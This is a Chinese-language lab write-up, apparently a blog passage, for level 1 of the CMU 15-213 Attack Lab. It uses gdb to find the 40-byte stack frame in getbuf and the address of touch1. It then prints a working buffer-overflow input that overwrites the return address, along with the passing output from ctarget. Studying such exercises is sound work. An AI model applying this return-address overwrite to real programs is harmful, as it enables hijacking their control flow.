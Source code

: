 ###### gdb解决了该问题后

尝试一下调用，发现现在会调用test函数了，但是和`write-up`中写的仍有出入。

```shell
./ctarget -q -i <(./hex2raw < <(echo "00 00 00 00 00 ac"))
```

通过该命令即可解决无法成功运行的问题

总结一下解决方案，就是严格按照`write-up`中写的参数调用即可，包括输入流为文件的情况。

现在就可以开始正式的调试了。

这个比上面要简单,首先打个getbuf断点

```shell
 1│ Dump of assembler code for function getbuf:
 2│ buf.c:
 3│ 12      in buf.c
 4├──> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
```

可见开了一个40字节的栈帧。
然后我们直接查看touch1的地址即可

三种方式
```shell
(gdb) p touch1
$17 = {void ()} 0x4017c0 <touch1>
(gdb) info address touch1
Symbol "touch1" is a function at address 0x4017c0.
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ nm ./ctarget | grep touch1
00000000004017c0 T touch1
```
然后遵循字节序，赋值一下 ctarget.l1.txt

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```

这里有回车也没关系

```shell
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ ./ctarget -q -i <(./hex2raw < ctarget.l1.txt)
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```
